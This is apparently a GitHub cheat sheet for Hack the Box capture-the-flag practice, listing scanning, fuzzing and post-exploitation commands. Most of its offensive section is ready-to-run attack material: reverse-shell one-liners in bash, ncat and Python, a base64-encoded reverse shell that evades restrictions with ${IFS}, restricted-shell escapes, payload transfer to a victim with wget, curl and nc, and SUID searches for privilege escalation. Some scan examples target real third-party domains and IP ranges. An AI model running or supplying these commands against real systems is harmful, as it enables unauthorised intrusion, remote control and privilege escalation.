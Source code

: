 ## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
**Nmap**<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>
**masscan probe to establish the open ports in the host.**<br>
•	masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
•	nmap -sV -v -O -sS -T5 {target}<br>
**Sudoing User...**<br>

 sudo -l	--> List available commands.<br>
 sudo command --> 	Run command as root.<br>
 sudo -u root command	 --> Run command as root.<br>
 sudo -u user command	-->  Run command as user.<br>

**Subfinder(only subfinder can run large wordlist)**<br>
•	./subfinder -d freelancer.com -o output.txt<br>
**Eyewitness**<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
**installing tab completion**<br>
•	apt-get install bash-completion<br>
**Untar**<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

**list all file in a directory with permission**<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
**list all files with hidden with permission**<br>
ls -al<br>
**show permission of directory or file**<br>
ls -ld<br>
**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>

**Gobuster Dir enumeration**<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

**REVERSE SHELL**<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999<br>
Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>
Note:In the above payload python will run and creating bash shell.But while sometimes trying to put commands it throws error like you have to run through terminal.For that Run Below command to work properly<br>
<br>
python3 -c 'import pty; pty.spawn("/bin/sh")'<br>
<br>
 Related Shell Escape Sequences...If commands are limited, you break out of the "jail" shell?
 
    python-->python3 -c 'import pty; pty.spawn("/bin/sh")'
    vi-->   :!bash
    vi-->   :set shell=/bin/bash:shell
    awk-->  awk 'BEGIN {system("/bin/bash")}'
    find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl--> perl -e 'exec "/bin/bash";'
**File transfer during REVERSE SHELL**<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>




**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
    
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>
**Searching for root permission file and Binaries or SUID binaries***<br>
![Image description](https://2.bp.blogspot.com/-V6G2dcR6rew/WvxyU3zB5NI/AAAAAAAAW3o/es8P06opgNwUg8gUPjzcLO29dgVYBOOpQCLcBGAs/s1600/0.2.png)<br>
when special permission is given to each user it becomes SUID, SGID, and sticky bits. When extra bit “4” is set to user(Owner) it becomes SUID (Set user ID) and when bit “2” is set to group it becomes SGID (Set Group ID) and  if other users are allowed to create or delete any file inside a directory then sticky bits “1” is set to that directory.<br>
What is SUID Permission?

SUID: Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges. 

**HOW SUID helps in privilege escalation?**<br>
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/ <br>
https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-linux-privesc-playground/<br>
  **GTFOBins**<br>
https://gtfobins.github.io/<br>

**Getting files and binaries with root permissions**<br>
find / -perm -u=s -type f 2>/dev/null<br>
find / -perm /4000 2>/dev/null <br>

